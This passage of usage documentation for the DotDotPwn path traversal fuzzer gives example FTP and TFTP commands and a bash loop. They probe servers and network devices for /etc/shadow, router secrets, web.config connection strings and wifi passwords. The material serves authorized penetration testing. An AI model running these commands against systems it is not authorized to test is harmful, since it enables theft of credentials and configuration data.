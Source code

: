 #### Authenticated FTP Testing
```bash
# FTP with credentials
python dotdotpwn.py --module ftp --host secure-ftp.company.com --username ftpuser --password ftppass123 --pattern "sensitive" --depth 8

# Test for backup files
python dotdotpwn.py --module ftp --host backup-ftp.company.com --username backup --password backup123 --file database.sql --pattern "INSERT INTO" --depth 6
```

#### FTP Server Assessment Script
```bash
#!/bin/bash
# FTP assessment script

FTP_HOST="ftp.target.com"
TARGETS=("/etc/passwd" "/etc/shadow" "/etc/hosts" "boot.ini" "web.config")
PATTERNS=("root:" "root:" "localhost" "Windows" "connectionString")

for i in "${!TARGETS[@]}"; do
    echo "Testing ${TARGETS[$i]}..."
    python dotdotpwn.py --module ftp --host "$FTP_HOST" --file "${TARGETS[$i]}" --pattern "${PATTERNS[$i]}" --depth 8 --quiet
    sleep 2
done
```

### TFTP Server Testing

**Scenario**: Testing network devices and embedded systems using TFTP.

#### Network Device Configuration
```bash
# Test router configuration
python dotdotpwn.py --module tftp --host 192.168.1.1 --file startup-config --pattern "enable secret" --depth 6

# Test switch configuration
python dotdotpwn.py --module tftp --host 192.168.1.10 --file running-config --pattern "hostname" --depth 4

# Test with custom port
python dotdotpwn.py --module tftp --host device.company.com --port 1069 --file config.txt --pattern "password" --depth 8
```

#### Embedded System Testing
```bash
# Test embedded Linux device
python dotdotpwn.py --module tftp --host 192.168.1.100 --file /etc/passwd --pattern "root:" --os-type unix --depth 8

# Test IoT device configuration
python dotdotpwn.py --module tftp --host iot-device.local --file device.conf --pattern "wifi_password" --depth 6
```
